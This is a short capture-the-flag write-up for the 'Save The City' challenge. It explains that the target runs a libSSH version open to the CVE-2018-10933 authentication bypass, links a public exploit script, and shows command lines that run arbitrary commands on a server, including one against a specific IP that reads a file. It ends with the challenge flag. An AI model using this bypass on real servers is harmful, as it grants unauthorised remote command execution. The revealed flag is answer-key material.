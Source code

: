 # Save The City

## Description

The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.8.1, 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10993 or CVE-2018-10933

### Installation

Clone the code:

```bash
https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d
```

### Usage 
 
- Run the exploit script with the appropriate parameters: 

```py
python libsshauthbypass.py <ip> --port <port> --command <command_line>
```

Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```py
python libsshauthbypass.py 192.168.1.100 --port 22 --command "whoami"
```

This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.

## Exploit

```py
python exploit.py 13.234.11.113 --port 32176 --command "cat location.txt"
```

> Flag: VishwaCTF{elrow-club-pune}